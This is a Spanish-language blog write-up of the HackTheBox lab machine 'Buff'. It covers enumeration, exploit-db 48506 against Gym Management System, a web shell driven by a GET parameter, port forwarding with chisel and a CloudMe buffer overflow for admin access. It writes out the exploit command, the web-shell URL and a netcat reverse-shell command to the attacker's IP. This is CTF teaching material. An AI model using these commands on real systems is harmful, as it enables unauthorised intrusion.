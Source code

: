 ```yaml
---
layout: single
title: Writeup HTB - Maquina Buff
comments: true
excerpt: "Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida."
date: 2020-11-26
classes: wide
header:
  teaser: /assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP
  - HackTheBox
  - Hacking
  - windows
  - gobuster
  - Gym Management System
  - 48506
  - CloudMe
  - powershell
  - chisel
  - portforwarding
  - msfvenom
  - bof
---
```


<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg">
</p>

Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida.

Comenzamos, primero haremos un escaneo con nmap a todos los puertos

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_2.jpg">
</p>

Vemos que solo nos arroja los puertos abiertos 7680, 8080. Asi que corramos con nmap para ver la versión de los servicios 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_3.jpg">
</p>

Lo más interesante que vemos es el puerto 8080, así que veámoslo en el navegador 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_4.jpg">
</p>

Vemos que hay una aplicación web, entonces se me ocurre pasarle un whatweb para ver que tecnologías usa

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_5.jpg">
</p>

Esto nos sirve para confirmar lo que nos dice nmap y saber que usa PHP. Ahora usemos Gobuster para un scaneo de directorios

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_6.jpg">
</p>

Lo mas interesante fue /upload.php

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_7.jpg">
</p>

Sin embargo, me salía esto, así que empecé a revisar la web y encontré el nombre de la aplicación

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_8.jpg">
</p>

Así que se me ocurrió buscar un exploit en exploit-db

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_9.jpg">
</p>

Revisemos el exploit para ver como usarlo 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_10.jpg">
</p>

Vemos que usarlo no es complicado solo Poner

```bash
Python 48506.py http://10.10.10.198:8080/
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_11.jpg">
</p>

Como vemos nos genera una Shell no tan buena porque no nos deja trabajar cómodamente. La explicación es sencilla lo que pasa que este exploit nos sube un archivo con doble extensión kamehameha.php.png para hacer el bypass y que no es nada menos que nuestra Shell y le hace consultas por GET todos los comandos que hagamos y lo imprime en consola.

```bash
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=comando
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_12.jpg">
</p>

Por eso haremos una Shell más cómoda para eso necesitamos subir al servidor nuestro nc.exe con impacket-smbserver

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_13.jpg">
</p>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_14.jpg">
</p>

Dejamos en escucha el puerto 4445

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_15.jpg">
</p>

Ejecutamos nc.exe de esta manera nc.exe -e cmd 10.10.14.75 4445 para conectarnos a nuestra ip para generar nuestra Shell 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_16.jpg">
</p>

Ahora a buscar nuestra flag de user con exito

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_17.jpg">
</p>

Si intentamos entrar la carpeta de Administrador para buscar la flag nos sale Acess is Denied

## Escalamiento de Privilegios

Llegamos aquí en la parte mas interesante en escalar privilegios con permisos de admin, revisando las carpetas Downloads vemos que hay un ejecutable CloudMe_1112.exe, Tengamos presente esto

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_18.jpg">
</p>

Revisemos los procesos abiertos con el comando: Tasklist

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_19.jpg">
</p>

Vaya vaya, veamos los puertos en escucha con el comando: netstat -ano 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_20.jpg">
</p>

Revisando con powershell que proceso está usando los puertos en especial el puerto 8888, verificamos que el Proceso CloudMe está usando el puerto 8888

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_21.jpg">
</p>

Así que me puse a buscar un exploit para CloudMe y existe uno que hace un buffer overflow, Lamentablemente este puerto está en escucha internamente y no podemos acceder a ella me imagino por un firewall

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_22.jpg">
</p>

Entonces no nos queda mas que hacer Port Forwarding, redirigir el trafico del puerto 8888 a nuestro 127.0.0.1:8888 para poder atacar localmente a la maquina victima con nuestro exploit. Por lo tanto tendremos que usar Chisel 

<center><a href='https://github.com/jpillora/chisel/releases/tag/v1.7.2'>https://github.com/jpillora/chisel/releases/tag/v1.7.2'</a></center><br>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_23.jpg">
</p>

Para esta maquina yo descargare chisel_1.7.2_windows_386.gz y chisel_1.7.2_linux_amd64.gz y las descomprimiré, para luego de nuevo subir a chisel.exe

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_24.jpg">
</p>

Ya desde nuestra maquina ejecuto el ejecutable en Linux con el siguiente comando con el puerto 9001

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_25.jpg">
</p>

Y en la maquina victima ponemos el siguiente comando con nuestra ip y nuestro puerto 9001 que dejamos en escucha 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_26.jpg">
</p>

Ya que creamos el túnel con éxito , ahora debemos generar el payload para agregarlo a nuestro exploit 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_27.jpg">
</p>

La única modificación que haremos es reemplazar el payload en el exploit

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_28.jpg">
</p>

Ahora dejamos en escucha el puerto 4486 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_29.jpg">
</p>

Y corremos nuestro exploit y bum Shell creada con permisos de administrador 😉 .  Ahora busquemos nuestro Flag. Espero que le haya gustado el WriteUp, como a mí me gusto escribirla. Aprovecho para saludad a Angussmoody y Nextco por el apoyo con esta maquina.